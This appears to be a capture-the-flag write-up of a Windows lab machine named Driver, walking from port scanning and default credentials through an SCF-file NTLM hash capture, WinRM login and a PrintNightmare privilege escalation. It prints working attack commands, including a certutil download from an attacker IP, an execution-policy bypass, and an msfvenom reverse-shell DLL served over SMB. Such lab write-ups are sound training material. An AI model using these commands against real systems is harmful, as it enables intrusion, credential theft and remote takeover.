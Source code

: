 ## Enumeration
`nmap -sVC 10.10.11.106`

```bash
Reason: 997 no-responses  
 PORT  STATE SERVICE   REASON     VERSION  
 80/tcp open http     syn-ack ttl 127 Microsoft IIS httpd 10.0  
 | http-auth:   
 | HTTP/1.1 401 Unauthorized\x0D  
 |_ Basic realm=MFP Firmware Update Center. Please enter password for admin  
 | http-methods:   
 |_ Supported Methods: GET HEAD POST OPTIONS  
 |_http-server-header: Microsoft-IIS/10.0  
 |_http-title: Site doesnt have a title (text/html; charset=UTF-8).  
 135/tcp open msrpc    syn-ack ttl 127 Microsoft Windows RPC  
 445/tcp open microsoft-ds syn-ack ttl 127 Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)  
 5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
 |_http-title: Not Found
 |_http-server-header: Microsoft-HTTPAPI/2.0
 Service Info: Host: DRIVER; OS: Windows; CPE: cpe:/o:microsoft:windows
```

Open ports: 80 (IIS httpd 10.0), 135 (RPC), 445 (smb), 5985 (winrm)

## HTTP
The web service prompts for HTTP basic authentication. These prompts are often misconfigured to default creds `admin:admin`.

After login, we have a printer service and on the Firmware Updates tab we find an upload functionality. There are not filters enforced on the upload and we can upload anything which will be written in a file share. Next we need to find the upload directory. We can start a fuzzer for that.

```bash
ffuf -c -w -H 'Authentication: Basic YWRtaW46YWRtaW4=' /usr/share/wordlists/dirb/big.txt -u http://10.10.11.106/FUZZ -e .php,.zip,.txt,.pdf
```

Because the upload document on a printer service is probably stored on some user's home directory we can use `SCF` files which can be used to perform limited set of commands. For example the “Show Desktop” button is just an SCF file. 

Read more about SCF file attacks [here](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/)

For this attack we can use responder to capture a hash. First, create a SCF file `test.scf` we the following commands:
```bash
[Shell]
Command=2
IconFile=\\<attack-ip>\share\whatever
[Taskbar]
Command=ToggleDesktop
```

Upload the file on the share. When a user browse the network share Windows will try to authenticate to that share in which point we can capture the NTLM authentication hash.

Run responder and wait `responder -wrf -I tun0`. After a couple seconds we get our hash `tony::DRIVER:NTLM`. This is an NTLMv2 hash which we can crack to reveal the password: `liltony`

## Privilege Escalation
Now we can connect with winrm and the above credentials:

`evil-winrm -u Tony -p liltony -i driver.htb`

If we look to the `fw_up.php` source code we can find where the upload directory is  `c:\firmwares`.

Since there is a printer service, we can try printnightmare CVE-2021-1675 to force ourselves in as SYSTEM. There's a PS module for this [here](https://github.com/calebstewart/CVE-2021-1675)

`certutil.exe -urlcache -f http://10.10.16.2:1234/CVE-2021-1675.ps1 nightmare.ps1`

However, we are unauthorized to execute the scipt. That is because of the current execution policy (Restricted). But we can force the execution policy to Unrestricted.

```powershell
Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy Unrestricted -Force;
```

```powershell
Import-Module ./nightmare.ps1
Invoke-Nightmare
```

Alternative there’s a Python version of this we can run from Kali [here](https://github.com/cube0x0/CVE-2021-1675)

As a prerequisite we need a malicious dll payload that will send us a remote shell. The Python script will inject this into the Print Spooler:

`msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST LPORT=4444 -f dll -o test.dll`

The file we end up creating here needs to be hosted somewhere and the easiest approach is a samba server.

`impacket-smbserver share . -smb2support`